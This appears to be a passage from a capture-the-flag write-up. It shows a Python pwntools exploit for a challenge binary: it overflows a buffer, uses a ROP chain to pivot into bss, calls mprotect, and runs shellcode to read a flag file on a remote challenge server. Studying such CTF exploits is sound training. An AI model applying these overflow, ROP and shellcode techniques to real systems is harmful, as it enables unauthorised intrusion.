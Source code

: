 ```py
    
    # This is effected by bachars bcuz gets(), so im gonna load a stage2.
    ropchain = flat(
        
        # I CBA dealing with the stack, so bss instead :)
        # read(0, dataseg, 0x1000)
        rop.rdi.address,                                                  
        0,   
        rop.rsi.address,
        dataseg,
        rop.rdx.address,
        0x1000,
        syscall,

        pop_rbp,
        dataseg+0x20, # +0x20 to leave room for filenames n shit
        leave,
            )
    
    # This is not affected by badchars, bcuz read() :).
    rop2 = flat(
        
        path := b"/home/fbi/flag.txt\x00",
        b"A"*(0x20 - (len(path) - 8)),
        
        # shellcode here because rop is annoying. 
        # mprotect(dataseg, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC)
        rop.rax.address,
        0x0a,
        rop.rdi.address,
        dataseg,
        rop.rsi.address,
        0x1000,
        rop.rdx.address,
        7,
        syscall,
        
        # Return into our shellcode...
        # Should srop into the somsled somewhere inside the GOT.
        dataseg+125,
        b"\x90"*50,
        shellcode,
        )

    #p = process("./blacklist")
    # nc 40.71.72.198 1236 
    p = remote("40.71.72.198", 1236)
    #gdb.attach(p, script)

    p.sendline(b"A"*72 + ropchain)

    # read() doesnt need a newline 
    p.send(rop2)
    
    # We should be recieving some data over stdin, which uses the same socket as stdout for comms with the server. So
    # pretty much no difference between the 2.
    buf = p.recvall()

    # Clean output a lil 
    printable = ""
    for b in buf:
        for c in string.printable:
```